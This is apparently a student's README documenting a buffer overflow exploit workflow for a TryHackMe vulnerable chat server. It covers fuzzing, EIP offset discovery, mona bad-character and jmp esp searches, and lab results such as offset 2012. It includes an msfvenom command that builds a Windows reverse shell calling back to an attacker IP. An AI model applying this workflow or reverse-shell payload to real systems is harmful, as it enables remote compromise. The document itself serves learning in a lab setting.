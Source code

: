 # BoF
Buffer Overflow Script
(Typos exist)

We start with saying. This is just for documentation and me for learning Buffer Overflows.
I will explain in the script what is goning on instead of writing it here.
Sometimes I edit script 10 times to get it to work, and I do not want to update the README every time.

More details and step by step can be bound here: 
https://jensoroger.wordpress.com/2021/01/19/explain-in-my-own-way-how-to-do-basic-buffer-overflow-with-help-from-realtryhackme-bufferoverlow-hacking-infosec-linux4hackers-pentest-pentesting-redteam/

## Step 1 General about fuzzing
The Goal here is to crash tha application and make the application execute "our" that we decide.
You need to know how the application works, are login first and the something else that we want to fuzz (crash).

## Step 2 Finding the offset
The goal here is to get control of EIP int the stack, for that to happend we need to find the offset. 

### Step 2.1 (fuzz.py)
Crash the application with fuzz.py and see if EIP contains AAAA.
What is needed in the script. 
ip
port
string
We also need to verify with ex. Immunity Debugger that EIP contains AAAA


### Step 2. Crash the application and find offset (payload1.py)
Here we want to try finding out if we can control the buffer
We create a payload that are random with pattern_create.rb and then verify if we can find the offset for example with Immunty Debugger.
ip
port
overflow
payload (random data)
buffer
Immunity Debugger and mona are used for this

### Step 2.2 Verify the offset (payload2.py)
Here we just verify that all is correct
ip
port
offsett
retn
payload
buffer
Immunity Debugger and mona are used for this

## Step 3 Find bad characters that we can not use in our all characters \x00  (payload3.py)
ip
port
offsett
retn
payload = bad charachter
buffer
Immunity Debugger and mona are used for this

!mona bytearray -b "\x00"
!mona compare -f C:\mona\oscp\bytearray.bin -a "ESP"
 Message=Possibly bad chars: 01 02 03 04


## Step 3.1 Find characters minus 3.1 founded  characters (payload3.py edited)
ip
port
offsett
retn
payload = bad charachter
buffer
Immunity Debugger and mona are used for this

!mona bytearray -b "\x00\x01"
!mona compare -f C:\mona\"procename"bytearray.bin -a "ESP"

Do this until you have Unmodified 

## Step 4 Finding jump adress (payload3.py)
In mona after step 3 and add the bad characters that you find.
!mona jmp -r esp -cpb "\x00"
Choose a nice adress in the list

## Step 5 Creating the payload (payload4.py)
ip
port
offsett
retn
payload = buf
padding
buffer
Immunity Debugger and mona are used for this

Here you need to know what OS is running the application. It is hard to create a reverse shell from Windows machine with a payload for Linux.
Also the padding my need som ajustments.

Payload exemples that you can use the out put in the script
LHOST=Your attacker box IP
LPORT=What port will the victim use to connect to your attack box
-b= That is the bad characters that you will find in step 3
-f=The output will be in pyton, so we can add this payload to the script.
msfvenom -p windows/shell_reverse_tcp LHOST=172.21.21.34 LPORT=4444 EXITFUNC=thread -b "\x00" -f py


## Brainstorm from tryhackme
The main thing in this BoF was that the first thing that happens when you connect to the application on port 9999
is that a login appears.This has maximum 20 char. Tried first fuzzing that. But found out that this is not gonna happend.
When you enter a username and then you are getting a send message prompt and that is vulnerble.
So in our payload we need to sen Username and a payload.

##Fuzz
python2 ./fuzz.py 
Login with user name roger and fuzzing Chat with 100 bytes
.
.
Login with user name roger and fuzzing Chat with 2200 bytes
Could not connect to 172.21.21.28:9999

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500

##Payload 
Create Payload payload.py

!mona findmsp -distance 2500

Offset 2012

0 bad characters

msfvenom -p windows/shell_reverse_tcp LHOST=172.21.21.34 LPORT=4444 EXITFUNC=thread -b "\x00" -f py

Log data, item 11
 Address=625014DF
 Message=  0x625014df : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\win7.INVID\Desktop\vulnerable-apps\chat server\essfunc.dll)

